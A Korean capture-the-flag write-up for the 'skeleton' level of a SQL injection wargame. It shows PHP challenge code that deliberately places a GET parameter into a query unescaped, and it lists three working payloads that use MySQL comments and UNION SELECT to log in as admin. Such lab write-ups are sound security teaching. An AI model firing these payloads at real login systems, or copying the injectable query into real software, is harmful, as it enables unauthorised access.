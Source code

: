 # **Skeleton**
## 1. 문제의도
MySQL 에서 주석 사용법을 아는가?

----
## 2. 코드
```php
    <?php 
      include "./config.php"; 
      login_chk(); 
      dbconnect(); 
      
      if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw]))
        exit("No Hack ~_~"); 
      
      $query = "select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0"; 
      echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
      $result = @mysql_fetch_array(mysql_query($query)); 
      
      if($result['id'] == 'admin')
        solve("skeleton"); 
      
      highlight_file(__FILE__); 
    ?>
```
----
### 1. preg_match()
막는 건 테이블명 정도?

    prob | _ | . | ()

### 2. query

   select id from prob_skeleton where id='guest' and pw='{$_GET[pw]}' and 1=0

접근 할 수 있는 부분 : pw GET parameter  

----
## 3. Solution

지금 이 문제에서 막히는 부분은 뒷 부분에 and 1=0 이 있어 or id='admin'을  
입력해주어도 거짓이 되어 통과하지 못한다는 점이다.

### 1. MySQL 주석

이유는 모르겠지만 우리는 주석을 사용할 수 있습니다.  
그리고 주석의 종류에는 다음과 같은 것이 있습니다.

+ **--** 그리고 **#** : 한줄 주석 처리
+ __/**/__ : 여러줄 가능 (주석 안에서라도 ", ' 여닫기는 해줄것!! )

### My Answers :

그래서 결론적으로 두가지를 시도해 보았다.  
하나는 or id='admin' 후 주석처리를 통해서 뒤의 값을 무시 하는 것이고  
또 하나는 union select 'admin' 을 통해서 뒤의 값을 무시하는 것이었다.

결론 적으로는 둘다 성공적이었다.
의문이 들었던 것은 **어째서 union 을 이용한 두번째 경우가 성공한 것일까**  
내 생각에는 mysql_fetch_array 를 통해 배열로 다시 인출하면서  
id 가 첫번째 콜롬 이었고 'id'는 0과 같은 취급을 받았기 때문이라는 생각을 하였다.  
<del>물론 정확히는 모른다</del>

+ ?pw=' or id='admin'-- -
+ ?pw=' or id='admin'# 
+ ?pw=' union select 'admin'-- -

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/TIL/blob/master/Security/WarGame/WriteUp/los.eagle-jump.org/00.%20ReadMe.md)**